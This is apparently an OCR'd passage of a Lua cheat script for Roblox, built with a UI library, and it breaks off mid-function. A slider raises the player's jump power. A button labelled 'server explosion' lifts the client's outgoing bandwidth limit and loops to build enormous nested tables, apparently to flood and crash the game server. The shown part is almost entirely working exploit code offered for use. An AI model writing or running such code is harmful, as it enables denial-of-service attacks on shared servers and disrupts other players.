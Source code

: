 local Slider = MainTab:CreateSlider({
   Name = "점프 파워 ",
   Range = {50, 500},
   Increment = 1,
   Suffix = "점프 파워 ",
   CurrentValue = 10,
   Flag = "Slider2", -- A flag is the identifier for the configuration file, make sure every element has a different flag if you're using configuration saving to ensure no overlaps
   Callback = function(Value)
    game.Players.LocalPlayer.Character.Humanoid.JumpPower = (Value)
   end,
})

local Button = MainTab:CreateButton({
   Name = "서버폭발",
   Callback = function()
local mainInterval = 0.1
local chatInterval = 0.1
local lastChatTime = tick()

while wait(mainInterval) do
    game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge)

    local function getmaxvalue(val)
        local mainvalueifonetable = 499999
        if type(val) ~= "number" then
            return nil
        end
        local calculateperfectval = (mainvalueifonetable / (val + 2))
        return calculateperfectval
    end

    local function bomb(tableincrease, tries)
        local maintable = {}
        local spammedtable = {}

        table.insert(spammedtable, {})
        z = spammedtable[1]

        for i = 1, tableincrease do
            local tableins = {}
            table.insert(z, tableins)
            z = tableins
        end

        local calculatemax = getmaxvalue(tableincrease)
        local maximum

        if calculatemax then
            maximum = calculatemax
        else
            maximum = 999999
        end

        for i = 1, maximum do
            table.insert(maintable, spammedtable)
        end
